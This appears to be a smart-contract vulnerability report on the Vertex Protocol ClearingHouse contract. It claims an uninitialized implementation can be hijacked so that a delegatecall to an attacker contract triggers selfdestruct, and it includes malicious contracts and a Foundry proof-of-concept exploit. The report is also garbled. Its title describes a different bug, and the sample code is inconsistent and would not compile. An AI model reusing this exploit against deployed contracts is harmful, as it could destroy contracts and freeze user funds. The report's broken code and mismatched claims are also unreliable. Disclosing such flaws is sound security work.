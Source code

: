 # Possible protocol insolvency because of MEV, DoS revert or dust amount left, when withdrawing tokens from spot pool

## Bug Description
1) ClearingHouse is missing with constructor with _disableInitializer() modifier.

It allows a hacker to backrun contract deployment and initialize with its own parameter.

https://github.com/vertex-protocol/vertex-contracts/blob/main/contracts/Clearinghouse.sol#L26

2) ClearingHouse has `clearinghouseLiq` address which is used for delegatecall.

https://github.com/vertex-protocol/vertex-contracts/blob/main/contracts/Clearinghouse.sol#L698-L716
```
    function liquidateSubaccount(IEndpoint.LiquidateSubaccount calldata txn)
        external
        virtual
        onlyEndpoint
    {
        bytes4 liquidateSubaccountSelector = bytes4(
            keccak256(
                "liquidateSubaccountImpl((bytes32,bytes32,uint8,uint32,int128,uint64))"
            )
        );
        bytes memory liquidateSubaccountCall = abi.encodeWithSelector(
            liquidateSubaccountSelector,
            txn
        );
        (bool success, bytes memory result) = clearinghouseLiq.delegatecall(
            liquidateSubaccountCall
        );
        require(success, string(result));
    }
```

If implementation is initiailized with following contract address as `clearinghouseLiq`. it will destroy implementation contract when `liquidateSubaccount()` is called.

```
  contract MaliciousClearingHouseLiq {
      function initialize() external {
          selfdestruct(payable(0));
      }
  }
```

## Recommendation
ClearingHouse should have constructor with _disableInitializer() modifier.
```
+  constructor() _disableInitializer {}
```

## Proof of Concept
```
contract MaliciousClearingHouseLiq {
    fallback() external {
        selfdestruct(payable(0));
    }
}

contract MaliciousEndpoint is Endpoint {
  function destroy(address clearingHouse) external {
    IEndpoint.LiquidateSubaccount memory account = new IEndpoint.LiquidateSubaccount;
    clearingHouse.liquidateSubaccount(account);
  }
}


contract ContractTest is Test {
  function setUp() public {
    vm.createSelectFork("arbitrum"); 
  }

  function testUpgrade() public {
    
    address           hacker = address(0x01);
    MaliciousClearingHouseLiq liq = new MaliciousClearingHouseLiq();
    MaliciousEndpoint endpoint = new MaliciousEndpoint();

    impl = new Clearinghouse();

    vm.startPrank(hacker);
    impl.initialize(address(endpoint), address(0), address(0), address(liq));
    endpoint.destroy(impl);
    vm.stopPrank();
  }
}
